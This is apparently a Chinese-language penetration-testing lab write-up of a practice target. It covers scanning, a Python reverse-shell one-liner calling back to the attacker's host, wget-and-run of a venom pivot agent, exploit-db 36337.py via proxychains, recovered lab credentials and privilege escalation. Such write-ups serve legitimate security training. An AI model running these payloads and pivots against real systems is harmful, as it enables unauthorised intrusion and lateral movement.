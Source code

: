 # <font color = "#749DD6">第一次打靶</font>

### <font color = "#749DD6">0x01 环境</font>

靶机: IP:192.158.1.15

攻击机: Linux kali 5.18.0-kali2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali1 (2022-06-20) x86_64 GNU/Linux 

IP:192.168.1.14

### <font color = "#749DD6">0x02 主机发现</font>

由于靶机和攻击机是在同一网段，所以采用arp-scan命令查看靶机IP

```
arp-scan -l
```

<img src=".\pictures\1-1.jpg">

其中`192.168.1.15    08:00:27:f4:1d:65       PCS Systemtechnik GmbH`是陌生IP,所以推测为靶机。

### <font color = "#749DD6">0x03 端口扫描</font>

```
nmap -sV -p- 192.168.1.15
```

<img src=".\pictures\1-2.png">

其中5000端口运行着python的web框架Werkzeug。我们来看看

<img src=".\pictures\1-3.png">

### <font color = "#749DD6">0x04 路径爆破</font>

我尝试用xray扫了一下，结果就是没什么结果，所以另寻僻静。用`dirsearch`爆破下路径，发现有新的收获

```
dirsearch -u "http://192.168.1.15:5000"
```

<img src=".\pictures\1-4.png">

访问后，发现是个代码执行页面

<img src=".\pictures\1-5.png">

这时就可以利用python进行反向shell连接到我的kali，首先在kali中开启监听

```
nc -nvlp 4444
```

然后在网页中输入

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

<img src=".\pictures\1-6.png">

执行后kali接收到反弹shell

<img src=".\pictures\1-7.png">

利用id命令发现时root用户，但ls一下发现存在Dockerfile推测进入的是个Docker，然后利用

```
ls /.dockerenv
or
cat /proc/1/cgroup
```

如果都存在内容，那么肯定就是个docker了。发现其ip地址为172.17.0.3

，接着进行内网主机发现

```
for i in $(seq 0 254); do for j in $(seq 1 254); do ping -c 1 172.17.$i.$j; done done | grep time
```

发现了.1和.2主机存活

由于直接在这两台主机扫描不太容易，所以需要利用内网穿透技术使kali能连接到docker虚拟机。这里利用venom

首先在kali中执行

```
./admin_linux_x64 -lport 6666
```

然后再利用kali运行http服务，在靶机中使用wget将使用代理的另一个文件传过去

```
python3 -m http.server 80 
```

靶机中

```
wget http://192.168.1.14/agent_linux_x64
./agent_linux_x64 -rhost 192.168.1.14 -rport 6666
```

<img src=".\pictures\1-8.png">

建立socks代理，让linux主机通过代理访问靶机。

```
socks 2801
```

<img src=".\pictures\1-9.png">

配置代理链

```
vi /etc/proxychains4.conf
```

到这里代理就算配置完成了。

```
proxychains nmap -sV -sT -Pn 172.17.0.1
```



<img src=".\pictures\1-10.png">

发现172.17.0.1和192.168.1.15是同一台主机，只不过172.17.0.1是对容器内的IP,192.168.1.15是对外部的IP。



然后使用同样的手法扫描下172.17.0.2

<img src=".\pictures\1-11.png">

搜索服务和漏洞

<img src=".\pictures\1-12.png">

先尝试第一个exp

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .

proxychains python2 36337.py 172.17.0.2
```

<img src=".\pictures\1-13.png">

发现里面存在password文件，存放账号密码

```
john
1337hack
```

### <font color = "#749DD6">0x05 利用内核漏洞提权</font>

利用账号密码登录，发现成功登录。然后进行提权

<img src=".\pictures\1-14.png">

<img src=".\pictures\1-15.png">

<img src=".\pictures\1-16.png">

提权成功！
